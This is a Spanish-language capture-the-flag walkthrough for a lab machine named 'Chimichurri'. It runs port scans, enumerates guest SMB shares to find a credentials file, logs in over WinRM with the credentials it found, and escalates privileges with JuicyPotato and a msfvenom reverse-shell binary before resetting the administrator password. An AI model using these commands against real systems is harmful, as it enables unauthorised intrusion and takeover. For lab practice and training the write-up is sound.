# Máquina Chimichurri
### Reconocimiento de la Ip de la máquina víctima



### Puertos abiertos

sudo nmap -sS --disable-arp-ping --min-rate 6000 -p- --open -vvv -Pn 192.168.5.191



### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p53,88,135,139,389,445,464,593,636,3268,3269,5985,6969,9389,47001,49664,49665,49666,49667,49669,49670,49671,49674,49692 -vvv -Pn 192.168.5.191





### Explotación 

Como tengo el servicio de SMB enumero recursos compartidos con el usuario invitado

smbmap -h 192.168.5.191 -u invitado



entro al recurso compartido con smbclient

smbclient -U invitado //192.168.5.191/drogas 

descargué el archivo credenciales.txt



visualizo el contenido del archivo credenciales.txt



en el puerto 6969 corre Jenkins



la versión es 2.361.4 y encontré un exploit https://www.exploit-db.com/exploits/51993





como tenemos el servicio de WinRM corriendo por el puerto 5985

verifico si estas credenciales tienen acceso a winrm

nxc winrm 192.168.5.191 -u 'hacker' -p 'Perico69'



entonces me conecto mediante evil-winrm

evil-winrm -i 192.168.5.191 -u 'hacker' -p 'Perico69'

a la vez veo los privilegios



### POST-EXPLOTACIÓN

como tengo el privilegio 



utilicé la herramienta JuicyPotato.exe -> https://github.com/ohpe/juicy-potato/releases/tag/v0.1



para utilizar esta herramienta debo crear un binario .exe con msfvenom



luego lo subimos a la víctima



me pongo en escucha con el puerto 443 con netcat y ejecuto el comando:

./JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 443 -a "/c C:\Users\hacker\Documents\shell.exe"



al intentar ver las banderas me sale acceso denegado



entonces cambié la contraseña del usuario administrador



ahora me conecto por evil-winrm



### user.txt



### root.txt

